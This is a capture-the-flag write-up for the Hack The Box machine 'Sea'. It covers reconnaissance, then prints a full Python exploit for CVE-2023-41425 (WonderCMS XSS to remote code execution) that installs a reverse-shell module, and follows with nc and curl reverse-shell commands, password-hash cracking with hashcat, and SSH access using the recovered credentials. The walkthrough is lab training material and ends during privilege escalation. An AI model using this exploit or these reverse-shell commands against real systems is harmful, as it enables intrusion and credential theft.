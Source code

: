 # Sea Write-up

<img src="https://labs.hackthebox.com/storage/avatars/0011f6725aed869f8683589cb08c90d0.png" width="200" height="200">

## Recon 

### Port enumeration with Nmap

`nmap -sC -sV 10.10.11.28`

    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   3072 e3:54:e0:72:20:3c:01:42:93:d1:66:9d:90:0c:ab:e8 (RSA)
    |   256 f3:24:4b:08:aa:51:9d:56:15:3d:67:56:74:7c:20:38 (ECDSA)
    |_  256 30:b1:05:c6:41:50:ff:22:a3:7f:41:06:0e:67:fd:50 (ED25519)
    80/tcp open  http    Apache httpd 2.4.41
    |_http-title: Sea - Home
    | http-cookie-flags: 
    |   /: 
    |     PHPSESSID: 
    |_      httponly flag not set
    Service Info: Host: sea.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Add `sea.htb` to `/etc/hosts`

    echo "10.10.11.28 sea.htb" | sudo tee -a /etc/hosts 

### Directory enumeration with Dirsearch

`python3 dirsearch.py -e php,html,js -u http://sea.htb 404,403,401,307`
                                      
    200 -    3KB - /404                                                                                   
    200 -    3KB - /contact.php                                      
    301 -  228B  - /data  ->  http://sea.htb/data/                                                       
    301 -  232B  - /messages  ->  http://sea.htb/messages/                                     
    301 -  231B  - /plugins  ->  http://sea.htb/plugins/             
    301 -  230B  - /themes  ->  http://sea.htb/themes/                   

![image](https://github.com/user-attachments/assets/fc57769e-68e8-428d-a7be-641db54399e1)

And so we found the directory `/themes/` where we don't have access. Let's try to find directories in this section as well

With using `directory-list-2.3-medium.txt` wordlist.

`python3 dirsearch.py -e php,html,js -u http://sea.htb/themes 404,403,401,307 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`

    200 -    4KB - /themes/home                                      
    200 -    3KB - /themes/404                                       
    301 -  235B  - /themes/bike  ->  http://sea.htb/themes/bike/

![image](https://github.com/user-attachments/assets/f354c8b8-084e-4394-87b7-a8e128c3c87a)

Try again for `/themes/bike/` directory
   
`python3 dirsearch.py -e php,html,js -u http://sea.htb/themes/bike/ 404,403,401,307 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`

    200 -    6B  - /themes/bike/version                              
    301 -  239B  - /themes/bike/img  ->  http://sea.htb/themes/bike/img/
    200 -    4KB - /themes/bike/home
    301 -  239B  - /themes/bike/css  ->  http://sea.htb/themes/bike/css/
    200 -   66B  - /themes/bike/summary                              
    200 -    3KB - /themes/bike/404                                  
    200 -    1KB - /themes/bike/LICENSE    

Let's check `sea.htb/themes/bike/LICENSE` and `sea.htb/themes/bike/summary`

![image](https://github.com/user-attachments/assets/7f3da3a7-1a99-4407-afbc-d589a8d3f5d2)

![image](https://github.com/user-attachments/assets/850e7ee9-d03c-46a2-bf53-07aa681a5a62)

## Exploitation

### CVE-2023-41425

Cross Site Scripting vulnerability in Wonder CMS v.3.2.0 thru v.3.4.2 allows a remote attacker to execute arbitrary code via a crafted script uploaded to the installModule component.

Exploit: Wondercms 4.3.2 XSS to RCE

    import sys
    import requests
    import os
    import bs4
    
    if (len(sys.argv)<4): print("usage: python3 exploit.py loginURL IP_Address Port\nexample: python3 exploit.py http://localhost/wondercms/loginURL 192.168.29.165 5252")
    else:
      data = '''
    var url = "'''+str(sys.argv[1])+'''";
    if (url.endsWith("/")) {
     url = url.slice(0, -1);
    }
    var urlWithoutLog = url.split("/").slice(0, -1).join("/");
    var urlWithoutLogBase = new URL(urlWithoutLog).pathname; 
    var token = document.querySelectorAll('[name="token"]')[0].value;
    var urlRev = urlWithoutLogBase+"/?installModule=https://github.com/prodigiousMind/revshell/archive/refs/heads/main.zip&directoryName=violet&type=themes&token=" + token;
    var xhr3 = new XMLHttpRequest();
    xhr3.withCredentials = true;
    xhr3.open("GET", urlRev);
    xhr3.send();
    xhr3.onload = function() {
     if (xhr3.status == 200) {
       var xhr4 = new XMLHttpRequest();
       xhr4.withCredentials = true;
       xhr4.open("GET", urlWithoutLogBase+"/themes/revshell-main/rev.php");
       xhr4.send();
       xhr4.onload = function() {
         if (xhr4.status == 200) {
           var ip = "'''+str(sys.argv[2])+'''";
           var port = "'''+str(sys.argv[3])+'''";
           var xhr5 = new XMLHttpRequest();
           xhr5.withCredentials = true;
           xhr5.open("GET", urlWithoutLogBase+"/themes/revshell-main/rev.php?lhost=" + ip + "&lport=" + port);
           xhr5.send();
           
         }
       };
     }
    };
    '''
      try:
        open("xss.js","w").write(data)
        print("[+] xss.js is created")
        print("[+] execute the below command in another terminal\n\n----------------------------\nnc -lvp "+str(sys.argv[3]))
        print("----------------------------\n")
        XSSlink = str(sys.argv[1]).replace("loginURL","index.php?page=loginURL?")+"\"></form><script+src=\"http://"+str(sys.argv[2])+":8000/xss.js\"></script><form+action=\""
        XSSlink = XSSlink.strip(" ")
        print("send the below link to admin:\n\n----------------------------\n"+XSSlink)
        print("----------------------------\n")
    
        print("\nstarting HTTP server to allow the access to xss.js")
        os.system("python3 -m http.server\n")
      except: print(data,"\n","//write this to a file")

Clone from github

    git clone https://github.com/prodigiousMind/CVE-2023-41425

Run the exploit and get the shell

    python3 exploit.py http://sea.htb/themes/ 10.10.14.11 4444

    rlwrap nc -nlvp 4444

    curl 'http://sea.htb/themes/revshell-main/rev.php?lhost=10.10.14.11&lport=4444'

![image](https://github.com/user-attachments/assets/19b772ec-4df9-4e14-ae4e-f2ee2b26564b)

![image](https://github.com/user-attachments/assets/e5e9ae5a-d9f1-4f91-baa0-82e10279429f)

![image](https://github.com/user-attachments/assets/4d290636-9b9a-4eae-999b-638138e681ab)

    cd /var/www/sea/data
    
    сat database.js | grep password

![image](https://github.com/user-attachments/assets/817e4a2e-3405-4329-9099-342adc7a4747)

hash `$2y$10$iOrk210RQSAzNCx6Vyq2X.aJ\/D.GuE4jRIikYiWrD3TM\/PjDnXm4q`

    echo -n '$2y$10$iOrk210RQSAzNCx6Vyq2X.aJ/D.GuE4jRIikYiWrD3TM/PjDnXm4q' > hash.txt

    hashcat -m 3200 -a 0 hash.txt /home/kali/wordlist/rockyou.txt 

![image](https://github.com/user-attachments/assets/d5277a85-d87f-43cc-a22a-08d6c405a9c9)

`$2y$10$iOrk210RQSAzNCx6Vyq2X.aJ/D.GuE4jRIikYiWrD3TM/PjDnXm4q`:`mychemicalromance`

### SSH

Connet to SSH with `amay`:`mychemicalromance` credentials

ssh amay@sea.htb

## Get the user flag!

![image](https://github.com/user-attachments/assets/0c9d2c75-78ba-42e1-a255-de032d0c9076)

## Privilege Escalation

netstat

![image](https://github.com/user-attachments/assets/ecc3a342-afa2-45df-96fc-c9c74e062c18)

ssh -L 8888:localhost:8080 amay@sea.htb

![image](https://github.com/user-attachments/assets/2c1944aa-5ab1-4b39-bf32-347224052a5c)

![image](https://github.com/user-attachments/assets/a28c03fd-c6de-4f11-ad04-c10e51f3dc4c)

Use amay's credentials `amay`:`mychemicalromance`

![image](https://github.com/user-attachments/assets/34de5860-9986-4873-a5f8-e0cdd1108884)



